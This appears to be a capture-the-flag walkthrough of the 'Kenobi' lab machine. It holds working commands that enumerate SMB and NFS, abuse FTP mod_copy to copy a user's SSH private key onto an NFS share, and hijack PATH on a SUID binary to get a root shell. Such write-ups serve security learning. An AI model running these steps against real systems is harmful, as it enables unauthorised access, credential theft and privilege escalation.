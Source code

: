 # Kenobi

{% hint style="info" %}
A basic NFS, FTP and SMB machine. exploiting all of those will lead to an  RCE from which we can <mark style="color:red;">**manipulate a user's ssh key**</mark>.

Then for PrivEsc we will be redirecting the curl command in a binary with SUID bit enabled to spawn a shell for us using the <mark style="color:red;">**$PATH**</mark> variable. Same technique used [here ](wonderland.md)for lateral movement.
{% endhint %}

## Enumeration

### Nmap

```bash
$nmap <target-ip> -sV -sC -T4 -Pn -vv -oN kenobi-def-scan
```

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

I often jump to enumerating the FTP portal, but it lead to nothing so i went on to SMB.

### SMB

```bash
$nmap <target-ip> -p 139,445 --script=smb-enum-shares.nse,smb-enum-users.nse -T4 -Pn -vv -oN kenobi-smb-scan
```

Which leads to 3 SMB shares available:

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Which is also confirmed with :&#x20;

```bash
$smbclient -L <target-ip>
```

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

So we try to connect to it:&#x20;

```bash
$smbclient //<target-ip>/anonymous
```

<figure><img src="../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
After much struggle, it turns out that I had a problem with my internet connection. Upon changing my router everything went flawless and the download was successful.
{% endhint %}

Now reading the logs we find this:&#x20;

<figure><img src="../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

Okay the ssh keys of the user kenobi are stored in <mark style="color:purple;">/home/kenobi/.ssh/id\_rsa</mark> file.

Now we move on there's nothing else helpful in that log file.

### NFS

```
$nmap <target-ip> -p 111,2049 --script=nfs* 
```

<figure><img src="../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

### FTP

Okay now we go back to the FTP server. Banner grabbing show us the version :&#x20;

<figure><img src="../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

Okay let's look for an exploit:

<figure><img src="../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Okay it's all about this mod\_copy thing.&#x20;

<figure><img src="../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

Okay this exploit description is pretty self explanatory. We will aim at mounting whatever we want to a specific place we want .&#x20;

* So what do we have? the ssh key file of the kenobi user.&#x20;
* Where should we put it? In the NFS mounting directory.

Here we go.

## Foothold

So we will be using the CPFR (copy from) and CPTO (copy to) commands with the FTP server to put the <mark style="color:green;">/home/kenobi/.ssh/id\_rsa</mark> file in <mark style="color:red;">/var.</mark>

{% hint style="success" %}
It is always a good practice to copy it to the temporary directory just to keep the machine clean for other players.
{% endhint %}

```bash
$nc <target-ip> 21
<...>
SITE CPFR /home/kenobi/.ssh/id_rsa
<...>
SITE CPTO /var/tmp/id_rsa
<...>
```

```bash
$mkdir target-NFS
$sudo mount -t nfs <taget-ip>:/var ./target-NFS/ -o nolock
$cd target-NFS
```

Now we just connect to the target as kenobi using that key :smile:

```bash
$cp tmp/id_rsa /home/<user>/thm/kenobi                                                                  
$sudo chmod 600 id_rsa  

#Do not forget to unmount the NFS  
$sudo umount target-NFS    
                              
$ssh -i id_rsa kenobi@<target-ip>
```

<figure><img src="../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

## Priv Esc

{% hint style="warning" %}
This was the same technique we used on [Wonderland ](wonderland.md)machine to pivot from a user to another.
{% endhint %}

For priv esc, without directly going into automated scripts, we should look for some low hanging fruits. sudo -l gave un nill, we pass on to SUID/GUID bits.

```bash
$find / -perm -u=s -type f 2>/dev/null
```

<figure><img src="../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

Okay a binary called menu, that's something. Let's run it&#x20;

<figure><img src="../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

Okay the status check option could lead to something, if it probes the website using a vulnerable command or anything of that sort, we could take advantage of that. Let's do some static analysis on this file (basic CTF RE/pwn scenario)

```bash
$strings /usr/bin/menu
```

<figure><img src="../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

Yeah well, executing curl, but WHICH curl ? :smile: if we change the $PATH variable to something of our choice instead of that curl command, it will execute ours.

```bash
kenobi@kenobi:~$ echo /bin/sh > /tmp/curl
kenobi@kenobi:~$ chmod +x /tmp/curl 
kenobi@kenobi:~$ export PATH=/tmp:$PATH
kenobi@kenobi:~$ /usr/bin/menu 
```

<figure><img src="../.gitbook/assets/image (127).png" alt=""><figcaption></figcaption></figure>
